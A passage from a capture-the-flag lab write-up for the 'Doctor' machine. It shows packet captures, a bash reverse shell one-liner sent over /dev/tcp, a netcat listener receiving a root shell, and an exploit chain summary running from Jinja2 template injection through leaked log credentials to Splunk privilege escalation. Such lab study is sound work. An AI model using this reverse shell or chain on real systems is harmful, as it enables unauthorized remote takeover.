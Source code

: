```console
```

local host

```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:50:06.244823 IP 10.10.10.209 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
22:50:06.246160 IP 10.10.14.14 > 10.10.10.209: ICMP echo reply, id 1, seq 1, length 64
22:50:07.244914 IP 10.10.10.209 > 10.10.14.14: ICMP echo request, id 1, seq 2, length 64
22:50:07.244932 IP 10.10.14.14 > 10.10.10.209: ICMP echo reply, id 1, seq 2, length 64
22:50:08.245284 IP 10.10.10.209 > 10.10.14.14: ICMP echo request, id 1, seq 3, length 64
22:50:08.245301 IP 10.10.14.14 > 10.10.10.209: ICMP echo reply, id 1, seq 3, length 64
```

- **EXP**: rshell command: `bash -c "bash -i >& /dev/tcp/ip/port 0>&1"`

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.209] 55458
bash: cannot set terminal process group (1135): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@doctor:/# uname -a
uname -a
Linux doctor 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> 80 http 8089 splunk -> domain name enum -> doctor mesg service -> SSTI -> template engine judging -> Jinja2 -> SSTI to get web shell -> adm group priv -> log file enum: leake cred -> shuan shell + splunk service login -> LPE -> root shell
